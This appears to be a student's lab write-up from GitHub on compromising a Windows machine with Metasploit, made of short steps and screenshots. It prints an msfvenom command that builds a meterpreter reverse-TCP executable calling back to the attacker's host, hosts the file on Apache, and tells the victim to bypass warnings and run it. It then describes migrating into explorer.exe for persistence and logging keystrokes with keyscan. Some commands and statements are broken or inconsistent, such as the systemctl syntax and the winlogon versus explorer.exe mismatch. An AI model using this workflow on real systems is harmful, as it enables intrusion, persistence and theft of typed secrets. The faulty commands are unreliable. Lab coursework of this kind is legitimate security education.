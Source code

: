 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit
```
NAME: S.L.NARASIMHA REDDY
REG.NO: 212223040214
```

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## OUTPUT:

![Screenshot 2025-04-23 231505](https://github.com/user-attachments/assets/366085f9-9355-4b6e-a9d5-eddce3a17cef)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## Output

![Screenshot 2025-04-23 234602](https://github.com/user-attachments/assets/12172145-5ee1-4baa-bba9-44b99fb41c47)

copy the fun.exe into the apache /var/www/html folder

![Screenshot 2025-04-23 234612](https://github.com/user-attachments/assets/654dbc15-70c8-4009-8e79-07e54ac7967c)

Start apache server sudo systemctl apache2 start

![Screenshot 2025-04-23 234617](https://github.com/user-attachments/assets/17a731b8-06c7-45d9-b24d-9c6ea652f966)

Check the status of apache2

![Screenshot 2025-04-23 234710](https://github.com/user-attachments/assets/d726d5a1-18b3-4af3-872a-9cd842705320)

## Output:

![Screenshot 2025-04-23 231846](https://github.com/user-attachments/assets/b63927bc-8631-4e08-8fc0-67b50ebc2a9f)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![Screenshot 2025-04-23 235303](https://github.com/user-attachments/assets/e20ecfd2-220b-4578-8ba6-6083215a1117)

Starting a command and control Server use multi/handler
![Screenshot 2025-04-23 235431](https://github.com/user-attachments/assets/ec0bda09-1683-443f-b735-05c14a922c31)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.220.129/fun.exe The file "fun.exe" downloads.

![Screenshot 2025-04-23 235454](https://github.com/user-attachments/assets/abe01f92-87ad-432d-9ebe-33b53401d9a3)


Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit
![Screenshot 2025-04-24 000012](https://github.com/user-attachments/assets/2d0f4282-85a8-49e0-810a-5d2b096e5d83)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:
migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![Screenshot 2025-04-24 000031](https://github.com/user-attachments/assets/48fdbae6-feb7-4322-877c-83f4038e5951)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![Screenshot 2025-04-24 000052](https://github.com/user-attachments/assets/b8b5e358-55f6-4956-849d-c9ffa3ca016c)

keyscan_dump Shows the keystrokes captured so far

![Screenshot 2025-04-24 000105](https://github.com/user-attachments/assets/1b2abe7f-e44c-42b5-9d24-97415685cecb)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
